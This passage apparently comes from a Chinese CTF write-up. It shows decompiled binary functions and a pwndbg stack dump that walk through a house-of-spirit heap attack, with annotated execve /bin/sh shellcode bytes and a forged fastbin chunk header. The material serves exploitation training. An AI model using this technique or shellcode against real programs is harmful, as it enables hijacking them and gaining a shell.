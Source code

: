 ```c
void sub_400A29()
{
  char *v0; // rdi
  char buf; // [rsp+0h] [rbp-40h]
  char *dest; // [rsp+38h] [rbp-8h]

  dest = (char *)malloc(0x40uLL); //代码已执行
  puts("give me money~"); //代码已执行
  read(0, &buf, 0x40uLL); //代码已执行
  v0 = dest; //执行此代码之后：v0==0x7fffffffdd10
  strcpy(dest, &buf); //此代码阻止写入的payload被破坏
  ptr = dest; //执行此代码之后：v0==0x7fffffffdd10
  sub_4009C4(); //调用函数
}
```

> 这里注意在house of spirit中伪造chunk的条件，之后会说。<font style="color:#F5222D;"></font>
>

#### 执行登出操作
```c
void sub_40096D()
{
  if ( ptr )  //ptr现在指向0x00007fffffffdd10
  {
    puts("out~");
    free(ptr);
    ptr = 0LL;
  }
  else
  {
    puts("havn't check in");
  }
}
```

```c
#free指针并将指针置空之后，结果如下：
#&rbp-90==0x7fffffffdd10
pwndbg>  x/50gx 0x7fffffffdc98
0x7fffffffdc98: 0x0000000000400824  0x000000000000000e
0x7fffffffdca8: 0x0000000000000000  0x00007fffffffdcd0
0x7fffffffdcb8: 0x00000000004009e0  0x0000000000000000
0x7fffffffdcc8: 0x00007ffff7ffe168  0x00007fffffffdd20
'''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''
#payload更改的内容：
0x7fffffffdcd8: 0x0000000000400a8c  0x69622fbb48f63100 #shellcode_start
    								#buf从这里开始
0x7fffffffdce8: 0x54535668732f2f6e	0x050fd231583b6a5f #shellcode_end
0x7fffffffdcf8: 0x0000000000000000  0x0000000000000000
0x7fffffffdd08: 0x0000000000000041  0x0000000000000000
    								#输入的id内容
									#此内容所在的地址为：0x7fffffffdd10
0x7fffffffdd18: 0x00007fffffffdd10  0x00007fffffffdd80
    			#ptr现在被修改为指向NULL
    			#由于原来ptr指向的地址为0x7fffffffdd10
    			#因此fastbin中的chunk地址为：0x7fffffffdd00
'''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''    
0x7fffffffdd28: 0x0000000000400b34  0x00007ffff7dd18e0
0x7fffffffdd38: 0x00007ffff7fdc700  0x0000000000000003
0x7fffffffdd48: 0x00000000000001c8  0x6161616161616161 
    			#输入的id大小		 #name从这里开始
0x7fffffffdd58: 0x6161616161616161  0x6161616161616161
0x7fffffffdd68: 0x6161616161616161  0x6161616161616161
```